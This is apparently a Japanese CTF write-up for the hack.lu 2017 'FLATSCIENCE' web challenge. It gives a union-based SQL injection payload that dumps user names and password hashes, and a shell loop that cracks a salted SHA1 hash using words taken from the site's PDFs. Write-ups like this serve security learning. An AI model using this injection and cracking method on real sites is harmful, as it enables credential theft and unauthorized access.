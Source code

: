 ```yaml
---
layout: post
alias: "/blog/2017/10/20/hacklu-ctf-2017-flatscience/"
date: "2017-10-20T01:32:23+09:00"
title: "hack.lu CTF 2017: FLATSCIENCE"
tags: [ "ctf", "writeup", "hacklu-ctf", "web", "misc" ]
---
```


人が`robots.txt`など下調べをし、別の人がSQLiでhashedなpasswordを抜き、残りの逆像求める部分を私がした。
たいてい独立にそれぞれ解いて終わるので、協力してやる感じは嫌いじゃないです。

## problem

<https://flatscience.flatearth.fluxfingers.net/>

昔のサイトにあったような迷路みたいなやつ

## solution

まず `robots.txt`。

```
User-agent: *
Disallow: /login.php
Disallow: /admin.php
```

`/login.php` ではSLQiができて、 `' union select 1, group_concat(name || ':' || password || ':' || hint) from Users;--` のようにすれば

```
admin:3fab54a50e770d830c0416df817567662a9dc85c:my fav word in my fav paper?!
fritze:2f72d9dd0f9d6ef605f402c91f517ea4:my love is...?
hansi:9e895c06352f4513fe179bf92b498397:the password is password
```

また `<!-- TODO: Remove ?debug-Parameter! -->` により、 `/login.php?debug` からソースコードを拾える。
`sha1($pass."Salz!")` が `3fab54a50e770d830c0416df817567662a9dc85c` な `$pass` を求めればよい。

`my fav word in my fav paper?!` って言ってるのでたくさん置いてあるPDF中にありそう。
とりあえず`wget`で再帰的に全部抜いて、grepとかではだめだったので以下のようにする:

``` sh
for f in flatscience.flatearth.fluxfingers.net/**/*.pdf ; do
    pdftotext $f /dev/stdout
done \
| sed 's/\s/\n/g' \
| sed 's/^\W*// ; s/\W*$//' \
| sort \
| uniq \
| while read line ; do
    echo -n "$line "
    echo -n "$line"'Salz!' | sha1sum
done \
| grep 3fab54a50e770d830c0416df817567662a9dc85c
```

`flag{Th3_Fl4t_Earth_Prof_i$_n0T_so_Smart_huh?}`

